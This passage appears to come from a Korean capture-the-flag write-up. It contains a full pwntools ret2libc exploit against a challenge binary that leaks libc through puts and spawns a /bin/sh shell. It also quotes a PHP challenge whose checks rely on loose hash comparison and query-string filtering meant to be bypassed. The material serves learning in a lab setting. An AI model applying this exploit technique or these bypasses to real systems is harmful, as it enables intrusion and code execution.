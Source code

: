 ```python
from pwn import *

p = process('./nonosquare')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so', False)

puts_plt = 0x401060
puts_got = 0x404018
pop_rdi = 0x0000000000401343
super_duper_safe = 0x401247
ret = 0x40127E

payload = b'A'*0x38
payload += p64(pop_rdi) + p64(puts_got)
payload += p64(puts_plt)
payload += p64(super_duper_safe)
payload += b'A'* (0x80 - len(payload))
p.sendafter(b"it?\n", payload)
p.recvuntil(b"?\n")
libc.address = u64(p.recv(6) + b'\x00\x00') - libc.symbols['puts']
success("libc base @ " + hex(libc.address))

payload2 = b'A'*0x38
payload2 += p64(pop_rdi) + p64(list(libc.search(b"/bin/sh"))[0])
payload2 += p64(ret)
payload2 += p64(libc.symbols['system'])
payload2 += b'A' * (0x80 - len(payload2))
p.sendafter(b"it?\n", payload2)
p.interactive()
```

## **Web**
### **Trial by PHP**

robots.txt에 접근할 경우, php 파일 명(secret-source.php)을 확인할 수 있고, 이를 다운받을 수 있었다.

```php
...
    <?php
        $egg = (hash_hmac("md5", $_COOKIE["egg"], "DEADLYDRAGON") == 0);
        $deep = isset($_GET["deep"]) && (strlen(base64_encode(abs($_GET["deep"]))) < strlen($_GET["deep"]));
        $hedge = isset($_GET["THROUGH_A_TRAP_LADEN_MAZE"]) && (strpos(urldecode($_SERVER['QUERY_STRING']), "_") === false);
    ?>

    <main>
        ...
    </main>
```

세 개의 조건문을 우회하면 플래그를 제공하는 문제이다.

